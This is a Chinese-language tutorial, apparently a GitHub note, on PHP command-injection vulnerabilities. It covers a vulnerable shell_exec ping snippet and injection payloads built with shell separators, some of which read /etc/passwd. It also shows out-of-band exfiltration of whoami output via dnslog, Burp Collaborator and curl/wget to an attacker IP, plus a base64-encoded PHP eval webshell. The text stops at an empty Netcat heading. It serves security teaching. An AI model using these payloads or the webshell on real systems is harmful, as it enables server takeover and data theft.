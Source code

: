## 0x00 命令执行漏洞描述
程序员在使用脚本语言（如php）开发应用程序的过程中，虽然十分方便快捷，但是也存在一些问题，比如速度慢，无法接触底层系统等，尤其是在一些企业级应用中需要去调用一些外部程序，此时就要用到一些执行系统命令的函数。  
应用在调用这些函数执行系统命令的时候，如果将用户的输入作为系统命令的参数拼接到命令行中，没有任何检查和过滤的情况下，就会造成命令执行漏洞。  

## 0x01 常见命令执行的相关函数
在 PHP 中可以调用外部程序的常见函数：  

system(args) 有回显
passthru(args)(有回显)
exec(args) （回显最后一行-必须 echo 输出）
shell_exec(args) （无回显-必须输出）
popen(handle,mode)(无回显)
proc_open('cmd','flag','flag')（无回显）
$process = proc_open('dir',$des,$pipes);
echo stream_get_contents($pipes[1]);
反引号 ： ``

## 0x02 命令执行漏洞的危害
1. 接管Web应用程序，控制整个网站；
2. 执行系统命令，读写文件，反弹shell，控制接管整个服务器；

## 0x03 命令执行漏洞代码分析
从代码中，ipaddress 参数是外部可以控制的，经过 explode 拆分，再判断类型，再使用 shell_exec 函数调用系统命令，所以存在命令执行漏洞。  
```php
if(isset($_POST['submit']) && $_POST['ipaddress']!=null){
    $ip=$_POST['ipaddress'];
    if(stristr(php_uname('s'),'windows')){
        $result.=shell_exec('ping '.$ip);
    }else{
        $result.=shell_exec('ping -c 4 '.$ip);
    }
}

```

## 0x04 命令执行漏洞攻击
### 1.分号 ；
在命令行中，命令按照顺序（从左到右）被执行，并且可以用分号进行分隔。当有一条命令执行失败时，不会中断其他命令的执行。  
```bash
ping -c 4 127.0.0.1;whoami
```
以上述命令为例，当ping执行失败时，也不会影响whoami正常执行。

### 2.管道符号 | 
通过管道符，可以将一个命令的标准输出管理为另外一个命令的标准输入，当他失败后，会执行另外一条命令。  
```bash
ping -c 4 127.0.0.1 | whoami
```

### 3.后台任务符号 & 
此符号的作用是使shell在后台执行该任务，这样用户就可以立即得到一个提示符并继续其他工作。  
```bash
ping -c 4 127.0.0.1&cat /etc/passwd&
```

### 4.逻辑与 && 
前面的命令和后面的命令执行之间存在逻辑与关系，只有前面的命令执行成功后，它后面的命令才会被执行。
```bash
ping -c 4 127.0.0.1 && whoami
```

### 5.逻辑或 || 
前后命令的执行存在逻辑或关系，，只有前面命令执行失败后，它后面的命令才会被执行。  
```bash
ping -c  && whoami
```

### 6.反引号 ``
当一个命令被解析时，它首先会执行反引号之间的操作。例如执行 echo \`ls -a\` 将会首先执行 ls 并捕获其输出信息。然后再将它传递给 echo，并将 ls 的输出结果打印在屏幕上，这被称为命令替换。
```bash
echo `whoami`
```

### 7.命令执行 $(command)
这是命令替换的不同符号。当反引号被过滤或编码时，这个命令可能会更有效。
```bash
moonsec@moonsec:~$ ping -c 4 127.0.0.1$(whoami)
PING 127.0.0.1moonsec (127.0.0.2) 56(84) bytes of data.
64 bytes from 127.0.0.2: icmp_seq=1 ttl=64 time=0.010 ms
64 bytes from 127.0.0.2: icmp_seq=2 ttl=64 time=0.028 ms
64 bytes from 127.0.0.2: icmp_seq=3 ttl=64 time=0.105 ms
64 bytes from 127.0.0.2: icmp_seq=4 ttl=64 time=0.061 ms

--- 127.0.0.1moonsec ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3040ms
rtt min/avg/max/mdev = 0.010/0.051/0.105/0.036 ms
```

### 8.win命令链接符
其中 | || & && 和Linux系统下是一致的。如果发现命令执行漏洞并且可以回显，直接获取系统敏感信息。
win 操作系统
type c:\windows\win.ini
linux 操作系统
cat /etc/passwd

## 0x04 命令执行漏洞带外通信技巧

上述漏洞利用方式为有回显利用，但是在实战环境中有回显的情况相对较少，无回显环境居多，证明漏洞存在就需要各种利用带外通信技巧。  
带外通信技巧一般都是无回显的情况下使用，首先可以利用dnslog。

### 1.DNSlog
dnslog 是一个显示解析记录的平台，在无回显的情况下，通过访问 dnslog，dnslog 会把你访问的子域名的头文件记录下来。
使用反引号\`whoami\`得到用户名，再拼接DNSlog子域名，再使用 icmp 协议访问，就是 ping 该域名。
payload如下：  
```bash
ping -c 4 127.0.0.1| ping `whoami`.3el05z.dnslog.cn

```
如果存在漏洞的情况下，getsubdomin就会得到回显信息。在 DNS Query Record 中，会记录 moonsec.3el05z.dnslog.cn。

### 2.burpsuite burpcollaborator
测试原理和DNSlog一样，使用 burpsuite 的 burpcollaborator 点击复制（copy to clipboard），复制测试的子域名，然后再与我们想要回显的信息拼接，payload如下：  
```bash
ping -c 4 127.0.0.1| ping `whoami`.xlmiw1sf16svvsbtwr5upgac137tvi.burpcollaborator.net
```
Poll now 是刷新频率，如果有访问记录，会自动把请求记录下来，这时候就能看到回显的字符。

## 0x05 利用日志测试无回显命令执行漏洞

HTTP协议在访问Web中间件时，IIS、Apache或者其他小型服务，都存在并记录访问日志。
在kali上开启python的小型服务器，利用curl协议执行命令，访问这个kali服务器的80端口，就可以在终端上查看到访问记录。
### 1.curl
使用curl命令，payload如下：  
```bash
ping -c 4 ||curl http://192.168.0.133/?`whoami`
```
curl是一个用于在命令行中传输数据的工具，尤其是在网络环境下进行HTTP请求。其全程是client url 支持多种协议，包括HTTP、HTTPS、FTP等。curl常用于发送请求、获取服务器响应，甚至可以上传和下载文件。
### 2.wget
使用wget命令，payload如下：  
```bash
ping -c 4 ||wget http://192.168.0.133/?`whoami`
```
wget 是一个命令行工具，用于从网络上下载文件， 全称是 "Web Get"，其支持多种协议。

## 0x06 利用命令执行漏洞管道符号写入Webshell
如果存在命令执行漏洞的页面有Web服务器，且有写入权限，利用shell命令写入Webshell后门到网站目录下，访问即可获取Webshell。
payload如下：
```bash
echo "PD9waHAgcGhwaW5mbygpO2V2YWwoJF9QT1NUWydjbWQnXSk/Pg=="|base64 -d >shell.php

cat shell.php

<?php phpinfo();eval($_POST['cmd'])?>
```

## 0x07 利用Netcat进行命令执行漏洞无回显测试

